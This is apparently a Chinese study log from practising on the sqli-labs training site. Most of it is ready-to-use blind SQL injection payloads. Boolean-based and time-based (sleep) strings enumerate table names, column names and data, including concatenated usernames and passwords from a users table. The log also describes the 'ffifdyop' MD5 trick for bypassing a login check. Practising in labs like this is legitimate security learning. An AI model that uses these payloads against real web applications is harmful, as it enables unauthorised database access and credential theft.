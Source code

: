 ```
?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97--+
?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>97--+**//****表名**

**//****字段**
?id=1" and (select count(column_name) from information_schema.columns where table_name='users')>10--+**//****字段个数**
?id=1" and length((select column_name from information_schema.columns where table_name='users' limit 0,1))>10--+**//****字段长度**
?id=1" and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>97--+**//****字段名**

**//****数据**
?id=1" and length((select id from users limit 0,1))>5--+
?id=1" and length((select id from users limit 1,1))>5--+**//****数据长度**
?id=1" and ascii(substr((select id from users limit 0,1),1,1))>97--+**//****数据内容**
```

------

```
//时间盲注

?id=1'and if(length((select database()))>10,sleep(3),1)--+
?id=1'and if(ascii(substr((select database()),1,1))>97,sleep(3),1)--+
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(3),1)--+
?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(3),1)--+
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(3),1)--+
?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>97,sleep(3),1)--+
?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(3),1)--+
?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(3),1)--+
```

### 3.ffifdyop

ffifdyop经过md5加密后为276f722736c95d99e921722cf9ed621c，再转换为字符串为'or'6 乱码，可以实现sql注入

## 下周目标

1.继续进行sql注入的学习，刷sqli-labs